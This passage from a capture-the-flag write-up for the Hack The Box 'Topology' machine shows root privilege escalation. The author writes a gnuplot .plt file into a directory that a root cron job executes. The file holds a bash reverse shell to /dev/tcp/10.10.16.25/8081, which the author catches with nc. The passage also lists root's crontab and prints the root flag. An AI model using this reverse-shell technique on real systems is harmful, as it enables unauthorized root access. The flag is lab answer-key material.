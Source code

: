 The important command is `find /opt/gnuplot -name *.plt -exec gnuplot {} ;`. The root user runs all .plt files in `/opt/gnuplot` with `gnuplot`. Since we can write to that directory, we can create a file with any command that will be executed by root.

`gnuplot` can also run system commands out of .plt files with the statement `system`. Using that information we can create a reverse shell that will be executed by root:
```
vdaisley@topology:/$ printf "system \"bash -c \'bash -i >& /dev/tcp/10.10.16.25/8081 0>&1\'\"" > /opt/gnuplot/exploit.plt
vdaisley@topology:/$ 
```

When `gnuplot` is executed we can catch the shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ nc -lnvp 8081                                                       
Listening on 0.0.0.0 8081
Connection received on 10.10.11.217 42194
bash: cannot set terminal process group (45624): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@topology:~# 
```

### Cronjobs
As root we can also inspect the cronjobs that execute the `find` command:
```
root@topology:~# crontab -l
crontab -l

[...]

# m h  dom mon dow   command
* * * * * /opt/gnuplot/getdata.sh
* * * * * find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
*/10 * * * * find "/opt/gnuplot" -name "*.plt" -mmin +5 -mmin -300 -exec /usr/bin/rm -rf {} \;
root@topology:~# 
```

### Root flag
Now we can read out the root flag:
```
root@topology:~# ls -al 
ls -al 
total 28
drwx------  4 root root 4096 Jun 14 07:47 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
lrwxrwxrwx  1 root root    9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Jan 17  2023 .bashrc
drwx------  3 root root 4096 Jan 17  2023 .config
drwxr-xr-x  3 root root 4096 May 12 07:34 .local
-rw-r--r--  1 root root  161 Jan 17  2023 .profile
-rw-r-----  1 root root   33 Nov  4 11:31 root.txt
root@topology:~# cat root.txt
cat root.txt
92ec797b24383989a972139ee5d077c0
root@topology:~# 
```